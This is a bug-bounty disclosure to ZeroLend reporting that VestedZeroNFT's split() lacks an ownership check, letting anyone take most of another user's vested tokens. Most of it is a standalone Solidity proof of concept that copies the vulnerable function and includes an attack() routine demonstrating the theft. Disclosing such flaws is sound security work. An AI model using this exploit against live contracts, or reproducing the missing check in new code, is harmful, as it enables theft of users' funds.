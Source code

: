 
# VestedZeroNFT tokens can be directly stolen through the split() function

Submitted on Mon Mar 04 2024 21:07:39 GMT-0400 (Atlantic Standard Time) by @Trust for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29031

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The split() function of VestedZeroNFT allows a user to split a tokenId to two tokens, using the desired ratio. 
VestedZeroNFT is a vesting solution, allowing anyone to mint a vesting token who will eventually emit the entire locked funds.


## Vulnerability Details
The `split()` function lacks access-control check - essentially that the msg.sender is the owner of `tokenID`. The `msg.sender` is the one receiving the newly minted token with an arbitrary ratio.
`_mint(msg.sender, ++lastTokenId);`
This means anyone can pass an existing tokenID and `fraction=1` to still 99.99% of the value of a token.

## Impact Details
Anyone can steal the underlying value of vestedZeroNFTs

        
## Proof of concept
Since the project's test suite does not run, as indicated in chat, I've prepped a POC as a standalone contract which directly copies the `split()` function from VestedZeroNFT.

Simply deploy the SplitStealPOC contract and run `attack()` which proves anyone can steal another person's holdings.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC165, ERC721Upgradeable, ERC721EnumerableUpgradeable} from "@openzeppelin/contracts-upgradeable/token/ERC721/extensions/ERC721EnumerableUpgradeable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {ERC20} from  "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IVestedZeroNFT{
    function split( uint256 tokenId, uint256 fraction) external;
    function mint( address _who, uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) external returns (uint256);
    function init(address _zero, address _stakingBonus) external;
}

enum VestCategory {
    PRIVATE_SALE,
    EARLY_ZERO,
    NORMAL,
    AIRDROP
}

struct LockDetails {
    uint256 cliffDuration;
    uint256 unlockDate;
    uint256 pendingClaimed;
    uint256 pending;
    uint256 upfrontClaimed;
    uint256 upfront;
    uint256 linearDuration;
    uint256 createdAt;
    bool hasPenalty;
    VestCategory category;
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract VestedZeroNFT is ERC721EnumerableUpgradeable {
    function init(address _zero, address _stakingBonus) external initializer {
    __ERC721_init("ZeroLend Vest", "ZEROv");
    denominator = 10000;
    zero = IERC20(_zero);
    }

    mapping(uint256 => bool) public frozen;
    uint256 public denominator;
    mapping(uint256 => LockDetails) public tokenIdToLockDetails;
    uint256 public lastTokenId;
    IERC20 public zero;

    function split(
        uint256 tokenId,
        uint256 fraction
    ) external {
        _requireOwned(tokenId);
        require(fraction > 0 && fraction < denominator, "!fraction");
        require(!frozen[tokenId], "frozen");
        LockDetails memory lock = tokenIdToLockDetails[tokenId];
        uint256 splitPendingAmount = (lock.pending * fraction) / denominator;
        uint256 splitUpfrontAmount = (lock.upfront * fraction) / denominator;
        uint256 splitUnlockedPendingAmount = (lock.pendingClaimed * fraction) /
            denominator;
        uint256 splitUnlockedUpfrontAmount = (lock.upfrontClaimed * fraction) /
            denominator;
        tokenIdToLockDetails[tokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: lock.createdAt,
            linearDuration: lock.linearDuration,
            pending: splitPendingAmount,
            pendingClaimed: splitUnlockedPendingAmount,
            upfrontClaimed: splitUnlockedUpfrontAmount,
            upfront: splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
        _mint(msg.sender, ++lastTokenId);
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: block.timestamp,
            linearDuration: lock.linearDuration,
            pending: lock.pending - splitPendingAmount,
            pendingClaimed: lock.pendingClaimed - splitUnlockedPendingAmount,
            upfrontClaimed: lock.upfrontClaimed - splitUnlockedUpfrontAmount,
            upfront: lock.upfront - splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
    }

    function getTokenIdToLockDetails(uint256 a) external returns (LockDetails memory)  {
        return tokenIdToLockDetails[a];
    }

    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");
        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);
        return lastTokenId;
    }

}


contract SplitStealPOC {

    IERC20 zero;
    VestedZeroNFT nft;

    constructor() {
        zero = new Zero();
        nft = new VestedZeroNFT();
        nft.init(address(zero), address(0));        
    }

    function attack() external {
        zero.approve(address(nft), type(uint256).max);
        nft.mint(address(0x1111), 1000, 1000, 100, 100, block.timestamp, false, VestCategory.EARLY_ZERO); // uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) 

        require(nft.ownerOf(1) == address(0x1111));

        nft.split(1, 10);

        require(nft.ownerOf(2) == address(this));
        LockDetails memory l1 = nft.getTokenIdToLockDetails(1);
        LockDetails memory l2 = nft.getTokenIdToLockDetails(2);
        require(l1.pending == 1);
        require(l2.pending == 999);
    }
}

```